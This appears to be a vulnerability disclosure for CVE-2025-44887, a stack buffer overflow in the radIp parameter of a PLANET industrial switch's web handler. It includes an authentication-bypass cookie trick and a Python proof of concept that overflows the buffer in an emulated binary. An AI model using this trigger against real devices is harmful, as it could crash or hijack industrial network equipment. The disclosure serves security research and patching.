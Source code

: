 ```yaml
---
title: web_radiusSrv_post-radIp
date: 2025-04-20 17:09:22
tags: cve
---
```




**Affected Product**: FW-WGS-804HPT

**Affected Firmware Versions**:  v1.305b241111

**Vulnerability Type**: Buffer Overflow

**CVE Identifier**: CVE-2025-44887







# FW-WGS-804HPT_v1.305b241111 introduced

The WGS-804HPT-V2 is a ruggedized industrial-grade Ethernet switch designed for harsh environments and mission-critical applications. As part of PLANET Technology's Industrial Automation Series, this 8-port managed switch combines Power over Ethernet (PoE+) capabilities with industrial durability, making it ideal for building automation, smart infrastructure, and IoT deployments.



Official Product Page: https://www.planet.com.tw/en/product/wgs-804hpt-v2





# web_radiusSrv_post-radIp

I discovered a  stack overflow vulnerability in the Planet router.

By analyzing the dispatcher file in the bin directory, I found that the function web_radiusSrv_post  contains a stack overflow vulnerability.

The stack overflow can be triggered by radIpkey value, which leads to a strcpy stack overflow.

![image-20250321152223389](../res/202503211522484-17451483449023.png)

In the main function, there is an account authentication detection. We create a cookie_0 in the tmp directory, with the content of "20 0 0", and its function is to create a cookie with sufficient permissions to access this route.

```json
20 0 0
```



![image-20250416174152693](../res/image-20250416174152693.png)





# How can we simulate a router



﻿The content of the **poc**.py file is as follows:

```json
import os


a = 0x1F02
var_name = "radIp"
b = 'a' * 0x200


poc_content = f"&cmd={a}&{var_name}={b}"
with open('poc', 'w') as f:
    f.write(poc_content)

command = (
    "sudo chroot . ./qemu-mips-static "
    "-E REQUEST_METHOD=POST "
    "-E HTTP_COOKIE='hid=0' "
    "-L ./lib "
    "-g 1234 "
    "./dispatcher.cgi "
    "< poc"  
)


os.system(command)



```

# Attack result

![image-20250416174507270](../res/image-20250416174507270-174479670837732.png)

![image-20250416174444711](../res/image-20250416174444711-174479668644631.png)



Through the above image, we can see that we have overflowed to 0x160 and successfully hijacked the control flow. If necessary, more can be overflowed.
